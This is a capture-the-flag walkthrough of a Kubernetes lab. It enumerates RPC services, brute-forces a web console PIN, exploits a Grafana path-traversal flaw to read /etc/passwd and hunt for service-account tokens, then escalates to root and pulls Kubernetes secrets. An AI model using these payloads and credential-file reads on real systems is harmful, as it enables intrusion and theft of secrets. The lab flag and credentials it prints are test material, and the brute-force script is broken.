<div align="center">


# Kubernetes for Everyone

**Difficulty:** Medium  
**Category:** Kubernetes / Cloud

</div>

---

# Ports
* 22
* 111 rpcbind
* 3000 Grafana
	* robots.txt
* 5000 - http python server

# Exploring port 111 RPCbind

## What is RPC (Remote Procedure Call)

* Allows a program to execute a procedure on a remote server as if it were a local call.
* It is the glue between services and components, enabling them to talk to eachother.
## RPCinfo

```bash
rpcinfo 10.81.156.35
```



`rpcinfo` makes a call to the RPC server and reports what it finds.

### Key functions of rpcinfo
* List registered RPC Services
* Check Service Availability
* Display RPC Statistics
* Delete RPC Registrations
* Make RPC Calls <--- Spännande?

Making calls to specific services? portmapper!

### Portmapper
* Maps network service ports to RPC program numbers.
```bash
rpcinfo -p 10.80.151.3
# -p uses version 2 of the rpcbind protocol, version 2 was previously known as the portmapper protocol. 
```


```bash
rpcinfo -u 10.80.151.3 100000 2
# rpcinfo -u <host> <progNbr> <Version>
```


Shows that portmapper is ready?

```bash
msfconsole
search portmapper

use scanner/misc/sunrpc_portmapper
```


This is the same as `rpcinfo -p <host>`, enumerates portmapper.

```bash
use scanner/portmap/portmap_amp
```


Vulnerable to RPC DUMP & RPC GEETSTAT amplification.
* "No packet amplification"

Only findin the service "Portmapper" on RPC is not very useful?

# Exploring port 5000 python http server
```bash
gobuster dir -u http://10.80.151.3:5000 -w /usr/share/word/...
```


Console shows me this:



## Python script for bruteforcing

```python
import requests
url = "http://10.80.151.3:5000/console"

for i in range(10000):
	
	data = {
		'cmd': 'authpin'
		'pin': f'{i:04d}'
	}

	response = requests.post(url,data)
	
	if "false" not in response.text:
		print(f"FOUND PIN: {i:04d}")
		break
	else:
		print(f"TRYING {i:04d}")
```


I found this in the page source:



So the PIN may not be 4 integers.

SECRET:42273G4Za3CJZAEJlVIt


KimCE3yMk08MxczdWJ2Y

I CANT GET THIS TO WORK

# Port 3000 GRAFANA


Version 8.3.0

One google search shows me "Directory Traversal and Arbitrary File Read"

This version of grafana has a vulnerability in `/local/plugin/...` that leads to Arbitrary File Inclusion.

https://www.exploit-db.com/exploits/50581


```bash
curl --path-as-is http://10.80.181.84:3000/public/plugins/logs/../../../../../../../../../etc/passwd
```



Bingo!

But the username we are looking for is neither "nobody" or "grafana"?
What is hereiamatctf907?

```bash
curl --path-as-is http://10.80.181.84:3000/public/plugins/logs/../../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```



Does not exist.
* Error message says that the plugin could not find the file, it is the plugin that is vulnerable!

Trying to get ssh keys:
* id_rsa, NO
* id_ed25519, NO
* authorized_keys, NO
* known_hosts, NO

On the main website:


View page source and "/static/css/main.css"



The pastebin link takes me to a encoded message:



OZQWO4TBNZ2A====
```bash
echo "OZQWO4TBNZ2A====" | base32 -d
> vagrant
```

This was the username!

And the password was: "hereiamatctf907"

# Kubernetes?

```bash
ssh vagrant@10.80.176.193
# with password works
```



```bash
sudo -l
```



```bash
sudo su
```
root!

```bash
cd /root/.kube
```
This hints towards something kubernetes-like ^


```bash
ps aux
```



Apparenly using `k0s`  "The zero friction Kubernetes"

```bash
k0s kubectl get secrets
```



Two secrets!
* default-token-nhwb5
* k8s.authentication

```bash
 k0s kubectl edit secret k8s.authentication
```



```bash
echo "VEhNe3llc190aGVyZV8kc19ub18kZWNyZXR9" | base64 -d
> THM{yes_there_$s_no_$ecret}
```

```bash
k0s kubectl get pods -A
```
To get all the available pods in all of the namespaces.

"Pods are the smallest deployable computing units you can create and manage in kubernetes"



I want to get onto the "kube-api"
```bash
k0s kubectl exec -it kube-api -- /bin/bash
```
`-it` means "create tty" and "read from stdin" (Basically "make it a terminal")



Cannot find the pod, other namespace?

```bash
k0s kubectl get namespaces
```



Now find out what namespace contains the api pod.
```bash
k0s kubectl get pods -n kube-system
```



Yuup!

```bash
k0s kubectl exec -it -n kube-system kube-api -- /bin/bash
```
This creates 


To open an interactive shell session within a container, I can use the `-i` (stdin) and `-t` (tty) flags.

```bash
git show <commit-id>

k0s kubectl get pods -n internship internship-job-5drbm
```



https://crackstation.net

chidori!
# K0s
* Only has the Linux Kernel as dependency, making installation and upgrades very easy.